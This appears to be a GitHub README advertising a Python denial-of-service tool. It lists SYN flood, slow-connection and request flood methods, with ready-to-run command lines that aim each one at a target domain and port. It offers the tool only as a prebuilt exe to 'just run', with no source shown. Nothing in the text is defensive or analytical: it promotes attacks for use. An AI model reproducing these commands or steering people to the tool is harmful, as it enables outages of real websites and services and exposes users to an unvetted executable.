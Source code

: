 # DDOS-Tools

✔ Legacy Hacker DDOS Attacks - Ez DDOS Attacks 

![](https://img.shields.io/badge/Language-Python-blueviolet) ![](https://img.shields.io/badge/Format-Py-red) ![](https://img.shields.io/badge/Platform-Windows%20--%20Linux-ff69b4) ![](https://img.shields.io/badge/Creator%20-Sharon%20V-informational)

<a href="https://www.youtube.com/channel/UCSUG894jzlzMkmWcahiyyXA">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white"/>
</a>

<a href="#">
  <img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white"/>
</a>

![](https://img.shields.io/badge/Methods-Attack-important)

**Methods : Synflood - Pyslow - Request**

![](https://img.shields.io/badge/How-Use-important)

**Usage Pyslow Method : python (LH)DDOS.py -d www.example.com -p 80 -T 2000 -Pyslow**

**Usage Synflood Method : python (LH)DDOS.py -d www.example.com -Synflood -T 5000 -t 10.0**

**Usage Request Method : python (LH)DDOS.py -d www.example.com -s 100 -Request

**Team : Sharon IV - Sharon VI**
The software is placed as an exe file to preserve the source code of the software

Just run the installation file :)

![](https://s2.uupload.ir/files/bandicam_2023-03-25_13-15-51-262_rhln.jpg)
